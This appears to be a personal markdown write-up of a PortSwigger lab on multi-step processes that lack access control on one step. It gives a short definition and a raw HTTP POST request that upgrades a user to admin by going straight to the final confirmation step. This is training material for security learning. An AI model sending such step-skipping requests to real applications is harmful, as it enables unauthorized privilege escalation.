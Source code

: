 # Multi-step process with no access control on one step

[Lab in PortSwigger](https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step)

## Definition
Sometimes, a web site will implement rigorous access controls over some of these steps, but ignore others. For example, suppose access controls are correctly applied to the first and second steps, but not to the third step. Effectively, the web site assumes that a user will only reach step 3 if they have already completed the first steps, which are properly controlled. Here, an attacker can gain unauthorized access to the function by skipping the first two steps and directly submitting the request for the third step with the required parameters.

## Notes
How is the best way to find hidden URLs? Pages that isn't linked by public or unprotected pages?

Solution:
```http
POST /admin-roles HTTP/1.1
Host: ace41f821f698db8c04d2e04007b004d.web-security-academy.net
Cookie: session=2UU2coBwzgtjhzBIAYRT0omEAuAthuop
...
Connection: close

username=wiener&action=upgrade&confirmed=true
```

## Key Words
> discovery, page, access control, unprotected